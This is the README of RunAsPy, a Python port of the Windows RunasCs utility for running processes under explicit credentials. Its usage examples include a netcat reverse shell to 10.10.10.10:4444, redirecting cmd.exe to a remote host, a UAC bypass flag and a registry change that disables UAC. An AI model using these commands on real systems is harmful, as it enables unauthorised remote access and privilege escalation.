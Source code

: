 # RunAsPy

A python port of [RunAsCs](https://github.com/antonioCoco/RunasCs)

*RunasPy* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows to create a process with the main thread impersonating the requested user (flag --remote-impersonation)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasPy* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUserW()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``

## Requirements

----

Python >= 3.8

# Usage

----

## commandline

```console
usage: RunAs.py [-h] [-d [DOMAINNAME]] -u [USERNAME] -P [PASSWORD] -c [CMD ...] [-t [PROCESSTIMEOUT]]
                [-l [{2,3,4,5,8,9}]] [-f [CREATEPROCESSFUNCTION]] [-r [REMOTE]] [-p] [-b] [-i] [-v]

options:
  -h, --help            show this help message and exit
  -d [DOMAINNAME], --domain [DOMAINNAME]
  -u [USERNAME], --username [USERNAME]
  -P [PASSWORD], --password [PASSWORD]
  -c [CMD ...], --command [CMD ...]
  -t [PROCESSTIMEOUT], --timeout [PROCESSTIMEOUT]
  -l [{2,3,4,5,8,9}], --logon-type [{2,3,4,5,8,9}]
  -f [CREATEPROCESSFUNCTION], --function [CREATEPROCESSFUNCTION]
  -r [REMOTE], --remote [REMOTE]
  -p, --force-profile
  -b, --bypass-uac
  -i, --remote-impersonation
  -v, --verbose         increase verbosity
```

### Run a command as a local user

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all"
```

### Run a command as a domain user and logon type as NetworkCleartext (8)

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -d domain -l 8
```

### Run a background process as a local user,
    
```console
Runas.py -u user1 -P password1 -c "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
```

### Redirect stdin, stdout and stderr of the specified command to a remote host
   
```console
Runas.py -u user1 -P password1 -c cmd.exe -r 10.10.10.10:4444
```

### Run a command simulating the /netonly flag of runas.exe

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -l 9
```

### Run a command as an Administrator bypassing UAC
    
```console
Runas.py -u adm1 -P password1 -c "cmd /c whoami /priv" --bypass-uac
```

### Run a command as an Administrator through remote impersonation

```console
Runas.py -u adm1 -P password1 -c "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

## programmatic (python module)

```python
import RunAsPy
config = {"username": "foo", "password": "F00", "cmd": "whoami /priv", verbose:True, bypassUac:True}
output = RunAsPy.Runas(**config)
print(output)
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 2 (*Interactive*). 

By default, the *Interactive* (2) logon type is restricted by *UAC* and the generated token from these authentications are filtered.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtering limitation.

**NetworkCleartext (8)** logon type is the one with the widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package. If you holds enough privileges, try to always specify this logon type through the flag --logon-type 8.

By default, the calling process (*RunasPy*) will wait until the end of the execution of the spawned process. 
If you need to spawn a background or async process, i.e. spawning a reverse shell, you need to set the parameter ``-t timeout`` to ``0``. In this case *RunasPy* won't wait for the end of the newly spawned process execution.

## Special Thanks

* [antonioCoco](https://github.com/antonioCoco) - for the RunAsCs project
* [natesubra](https://github.com/natesubra) - For the help with the UAC bypass
